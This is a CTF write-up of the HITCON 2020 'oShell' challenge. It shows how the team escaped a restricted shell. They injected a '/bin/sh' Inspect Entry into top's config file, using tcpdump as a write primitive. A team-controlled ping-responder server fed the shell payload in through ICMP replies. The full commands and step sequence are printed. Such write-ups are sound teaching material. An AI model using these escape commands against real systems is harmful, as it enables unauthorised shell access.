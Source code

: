 ```yaml
---
layout: post
title: HITCONCTF - Sandbox Escape
excerpt: "HITCON CTF is no joke. The challenges were crazy hard and very interesting at the same time. This first writeup will be about oShell which was a sandbox escape. This will not cover the first section of the challenge but will focus more on the sandbox escape using tcpdump and ping."
categories: [Writeups, HITCONCTF'20]
tags: [sandbox]
---
```


HITCON CTF is no joke. The challenges were crazy hard and very interesting at the same time. This first writeup will be about oShell which was a sandbox escape. This will not cover the first section of the challenge but will focus more on the sandbox escape using tcpdump and ping.

I wasn't involved in the first part of the challenge which was activating "enabled" mode. This was all done to my knowledge by Meow. To quickly summarize my understanding of how we got to enabled mode, we essentially open two ssh connections. In our first connection we run htop and strace the second shell. Following this, we just run enable on the second shell and view the calls made by our first shell. This gives us the real enable password which we can then just type in.

Cool, now we have enable mode but what does this actually do? The main difference is we get access to tcpdump which is a tool used to monitor network traffic. At this point we were stuck for a while as we didn't know what to do to actually break out of the restricted environment. Let's collect what we know and have so far. In terms of binaries that can be useful, doing a quick search on [GTFObins](https://gtfobins.github.io/) it seems like the `top` binary can be used to escape. In addition, we went through the trouble of getting `tcpdump` so that must also be involved in escaping the environment.

The first thing I tried with tcpdump was to use redirection in order to give us an arbitrary write on the system. This was completely incorrect as I redirection simply wasn't working in the remote environment. However, this wasn't fruitless as I also learned how to escape the environment using `top` and what our command needed to look like.

GTFObins provides a pretty good introductory explanation of how to escape the shell but in order to understand it, we had to look further at the documentation [here](http://manpages.ubuntu.com/manpages/xenial/man1/top.1.html#6.%20files). Before diving into the complete structure, let's look at what GTFObins tells us.
```bash
echo -e 'pipe\tx\texec /bin/sh 1>&0 2>&0' >>~/.config/procps/toprc
top
# press return twice
reset
```
Okay so it seems to be writing to a file called toprc and then we press return twice and just get a shell?

Actually yes, this is not far from what actually happens but let's take a closer look. From the documentation, we see that the first 15 lines of the config are critical and conveniently automatically generated by calling `top` then pressing `W`. This will write those 15 lines to our config file and also tell us where it is. The 15 lines of information will become much more important later.  By doing this, we see that our config file is actually located at `/home/oShell/.toprc`. 

Now let's investigate what we are actually supposed to append to the file. From the documentation, we know that the configurations have to be very strict. There can be no excess characters at the beginning, the first column must be either `pipe` or `file`, followed by a real tab, then a letter, then another real tab, and finally our command. Essentially what we are trying to accomplish is adding our own Inspect Entries. These are entries that we can later execute inside top. Once again, the detail about the strictness of the config file will come into play later.

In order to actually use our shell after we append that to our config, it is actually pretty simple.
```
1. run top
2. press Y to enter interactive mode and enter to use the default PID
3. press X which is the name of our Inspect Entry
4. profit with a not so visually pleasing but working shell!
```

At this point, we know exactly what we have to do. All we need to do is to append `pipe\tx\texec /bin/sh 1>&0 2>&0` to our toprc config and we have a shell. Easy right? Wrong. Now we enter the coolest and trickiest part of the challenge. This work was done mostly by ConnorJC and it was a very smart and cool methodology so I have chosen to write it up but all the credit goes to him.

The first thing we have to realize is that tcpdump is still our write primitive. However, we must tackle a few problems: 1) we cannot use file redirects 2) we must get our content into tcpdump 3) the content we paste must be formatted properly 4) the server is NATed. We will tackle these problems one at a time.

In order to bypass the first issue of not having file redirects, we can use the properties of tcpdump itself. Without going too much into the other flags, the most important one is that we can use the `W` flag to declare the file we want to output the contents of tcpdump to. This can be rewritten as the following in order to write to the toprc config file.
```bash
tcpdump -n -i any -U -w /home/oShell/.toprc icmp
```
This command is listening for icmp and is writing the output to the toprc file. Great, we've solved the first problem of not using file redirects. 

Now we will tackle problems 2 and 4 together. The first thought to getting our data into tcpdump would be to send a ping with a payload. However, because the server is NATed, we cannot directly send ping requests with a payload and have it show up in tcpdump. In order to bypass this, we decided to reconfigure a server we controlled to respond to ping requests with the payload we needed. The tool we used can be found [here](https://github.com/PixelsCamp/ping-responder). A side note is that this actually wasn't working on AWS for me because AWS servers are also NATed.

With the custom ping response, we are now able to send a ping request from the shell server to our server and have it respond with the payload. Thus, our payload would now show up in tcpdump. The following is the command with which we ran the ping responder in order to return our payload.
```bash
sudo docker run --read-only -d --restart always --net=host --init --name ping-responder ping-responder:latest ./ping-responder.py -i eth0 -s $'\npipe\x09x\x09exec /bin/sh 1>&0 2>&0\n'
```

You may notice that at the beginning of our payload we add a newline as well as at the end. This is one small part of how we tackled problem 3 which was the unclean input. Let's quickly summarize our situation so far. We are able to write all of the content of icmp requests that tcpdump views to the toprc file and we can choose one small part of all this traffic. How can we make it so we modify the toprc file and align with its strict standards?

It is important to note that while the first 15 lines are very important and are generated by the `W` command within top, the rest of the lines are either accepted if correct or ignored if incorrect. This means we can fill all the other lines from 16 to EOF with junk as long as our one good payload is on its own line within it. Another detail is that tcpdump does not append to the output file, it first deletes all its contents then begins writing.

In order to solve this problem, ConnorJC came up with a really smart trick which can be summed to the following assuming we have all the ping responder setup at x.y.z. We will need 3 different shells to accomplish this (1 - Enabled, 2,3 - Normal shells). The number following each line is the shell we will execute it with.
```
1. top -> W -> write config [2]
2. tcpdump -n -i any -U -w /home/oShell/.toprc icmp [1]
3. ping 1.1.1.1 a few times [3]
4. top -> W -> rewrite config [2]
5. ping x.y.z [3]
6. top -> Y -> 2x Enter [2]
7. shell and profit! [2]
```
Now let's break this down one step at a time. First, we must open a normal shell and create the initial config using top. Then, in our enabled shell, we will start tcpdump and point its output to the toprc file. The next step is where a really smart trick comes into play. We first ping a random ip address a few times. The reasonining behind this is to push the seek forward from the tcpdump write. Remember that the content at the beginning of toprc is very important and we have just overrode it but our seek is now further down in the file. After pinging the random ip, we then regenerate the toprc config. This essentially instates the critical information in the first 15 lines of the config and doens't touch the rest. 

Now, we ping our server and get the payload to show up in tcpdump. Keep in mind that it begins and ends with a newline so our payload will always be on its own line. Even though there may be other junk within the toprc file, it doesn't matter because it will see our valid Inspect Entry. You might think that this would overwrite the regeneration of the first 15 lines however, remember we pinged random addresses earlier and seeked later in the file. This means that our new content won't overwrite the regenerated first 15 lines. This was such a cool idea! 

Now the rest is easy, we can just restart top by exiting and calling it again, and use what we discussed earlier of pressing Y to enter interactive mode, then calling our own inspect entry to get a shell. With that, we can just cat the flag and win.

To conclude, I thought this challenge was really well put together. It invovled a lot of really cool components from the top sandbox escape to writing uncleanly with tcpdump and needing to figure out how to fix that. I mainly worked with Meow and ConnorJC on this problem and it was a really cool experience and I definitely learned a lot.
